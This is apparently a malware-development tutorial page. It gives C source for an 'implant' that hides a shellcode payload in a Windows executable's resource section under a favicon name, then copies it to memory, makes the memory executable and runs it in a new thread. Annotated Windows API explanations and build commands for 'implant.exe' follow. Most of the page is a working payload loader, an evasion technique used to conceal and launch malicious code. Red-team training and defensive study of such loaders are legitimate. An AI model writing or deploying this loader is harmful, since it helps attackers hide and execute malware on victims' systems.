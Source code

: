 
Code Snippet
```c
/*
 storing payload in .rsrc section
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;  
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// Launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
#### Retrieving payload from .rsrc algorithm (C-like pseudo-code)

```c
// 1. find the resource in .rsrc section containing payload 
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA)

// 2. load the resource from .rsrc section
resHandle = LoadResource(NULL, res)

// 3. get a pointer to the loaded resource
payload = (char *) LockResource(resHandle);

// 4. get the size of the resource/payload
payload_len = SizeofResource(NULL, res)
```

---

[**_FindResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) determines the location of a resource with the specified type and name in the specified module (executable file or DLL). This function can be found in the _kernel32.dll_ library.

`FindResource()` function has the following prototype:
```c
HRSRC FindResource(
  HMODULE hModule,   // handle to the module containing the resource. If NULL, the function searches the module used to create the current process
  LPCTSTR lpName,    // name of the resource. Also, this parameter can be MAKEINTRESOURCE(ID), where ID is the integer identifier of the resource
  LPCTSTR lpType     // resource type, ex. RT_BITMAP, RT_ICON, RT_RCDATA, etc.
);
```

**Return value**
If the function succeeds, the return value is a handle to the specified resource's information block. Otherwise, the return value is `NULL`.

---

[**_LoadResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) is used to load a resource from the module's resource section. This function can be found in the _kernel32.dll_ library.

`LoadResource()` function has the following prototype:

```c
HGLOBAL LoadResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is a handle to the data associated with the resource. Otherwise, the return value is `NULL`.

---

[**_LockResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) is used to obtain a pointer to the data associated with a resource. This function can be found in the _kernel32.dll_ library.

`LockResource()` function has the following prototype:
```c
LPVOID LockResource(
  HGLOBAL hResData    // handle to the resource to be accessed (from LoadResource() function)
);
```

**Return value**

If the loaded resource is available, the return value is a pointer to the first byte of the resource; otherwise, it is `NULL`.

> `LockResource()` needs to be casted as a `char` because it returning a Long Pointer Void which means "a generic pointer to some memory, but I don’t know (or care) what type of data it points to.”

---

[**_SizeofResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) is used to retrieve the size (in bytes) of a resource. This function can be found in the _kernel32.dll_ library.

`SizeofResource()` function has the following prototype:
```c
DWORD SizeofResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is the number of bytes in the resource. Otherwise, the return value is zero.

#### Compiling

```powershell
rc.exe resources.rc
cvtres.exe /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

In Windows, `rc.exe` and `cvtres.exe` are two command-line tools used in the process of building Windows applications. They are part of the Microsoft Visual Studio toolset.

1. [**_Resource Compiler_**](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-compiler): `rc.exe` is a special resource compiler in Windows. It is used to compile resource script files (with a _.rc_ extension) into binary resource files (with a _.res_ extension). Resource script files contain resources such as icons, bitmaps, dialog boxes, menus, strings, version information, etc., that are used in Windows applications.
    
2. **_Resource Converter_**: `cvtres.exe` is used to convert resource files from an older format (usually _.res_ files) to the newer _.coff_ format (Microsoft's Common Object File). This conversion is necessary for compatibility with modern development tools and linkers. `cvtres.exe` is typically invoked during the build process after resource files are compiled with `rc.exe`.